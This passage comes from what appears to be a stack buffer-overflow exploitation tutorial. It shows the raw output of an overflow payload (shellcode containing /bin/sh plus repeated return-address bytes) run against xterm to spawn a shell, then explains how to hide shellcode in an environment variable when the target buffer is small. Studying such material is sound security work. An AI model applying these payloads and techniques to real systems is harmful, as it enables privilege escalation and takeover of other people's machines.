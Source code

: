 �1��@������/bin/sh���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T�








��T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T








���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���








T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T���T��








�T���T���T���T���T���T���T���T���T���T���T���T��
Warning: some arguments in previous message were lost
bash$
------------------------------------------------------------------------------

   Eureka! Less than a dozen tries and we found the magic numbers. If xterm
where installed suid root this would now be a root shell.


                            Small Buffer Overflows
                            ~~~~~~~~~~~~~~~~~~~~~~

   There will be times when the buffer you are trying to overflow is so
small that either the shellcode wont fit into it, and it will overwrite the
return address with instructions instead of the address of our code, or the
number of NOPs you can pad the front of the string with is so small that the
chances of guessing their address is minuscule.  To obtain a shell from these
programs we will have to go about it another way.  This particular approach
only works when you have access to the program's environment variables.

   What we will do is place our shellcode in an environment variable, and
then overflow the buffer with the address of this variable in memory.  This
method also increases your changes of the exploit working as you can make
the environment variable holding the shell code as large as you want.

